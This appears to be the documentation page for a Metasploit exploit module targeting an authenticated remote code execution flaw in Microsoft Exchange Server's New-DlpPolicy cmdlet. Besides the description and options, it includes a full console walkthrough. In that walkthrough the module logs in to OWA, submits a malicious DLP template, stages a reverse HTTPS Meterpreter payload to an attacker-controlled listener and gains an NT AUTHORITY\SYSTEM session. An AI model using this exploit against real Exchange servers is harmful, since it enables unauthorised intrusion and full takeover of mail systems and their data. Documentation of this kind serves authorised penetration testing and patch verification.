 ## Vulnerable Application

### Description

This vulnerability allows remote attackers to execute arbitrary code
on affected installations of Exchange Server. Authentication is
required to exploit this vulnerability. Additionally, the target user
must have the `Data Loss Prevention` role assigned and an active
mailbox.

If the user is in the `Compliance Management` or greater `Organization
Management` role groups, then they have the `Data Loss Prevention`
role. Since the user who installed Exchange is in the `Organization
Management` role group, they transitively have the `Data Loss
Prevention` role.

The specific flaw exists within the processing of the `New-DlpPolicy`
cmdlet. The issue results from the lack of proper validation of
user-supplied template data when creating a DLP policy. An attacker
can leverage this vulnerability to execute code in the context of
`SYSTEM`.

Tested against Exchange Server 2016 CU14 on Windows Server 2016.

### Setup

Set up a [vulnerable target](#targets).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`Exchange Server 2016 and 2019 w/o KB4577352`

## Options

### USERNAME

Set this to the OWA username.

### PASSWORD

Set this to the OWA password.

## Scenarios

### Exchange Server 2016 CU14 on Windows Server 2016

```
msf6 > use exploit/windows/http/exchange_ecp_dlp_policy
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > options

Module options (exploit/windows/http/exchange_ecp_dlp_policy):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME                    no        OWA username
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server 2016 and 2019 w/o KB4577352


msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set rhosts 192.168.123.192
rhosts => 192.168.123.192
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set username Administrator
username => Administrator
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set password Passw0rd!
password => Passw0rd!
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > run

[*] Started HTTPS reverse handler on https://192.168.123.1:8443
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. OWA is running at https://192.168.123.192/owa/
[*] Logging in to OWA with creds Administrator:Passw0rd!
[+] Successfully logged in to OWA
[*] Retrieving ViewState from DLP policy creation page
[+] Successfully retrieved ViewState
[*] Creating custom DLP policy from malicious template
[*] DLP policy name: Abbotstone Agricultural Property Unit Trust Data
[*] Powershell command length: 2372
[*] https://192.168.123.1:8443 handling request from 192.168.123.192; (UUID: rwlz4ahe) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.123.1:8443 -> 192.168.123.192:6951) at 2020-09-16 02:39:17 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-365Q2VJJS17
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : GIBSON
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```
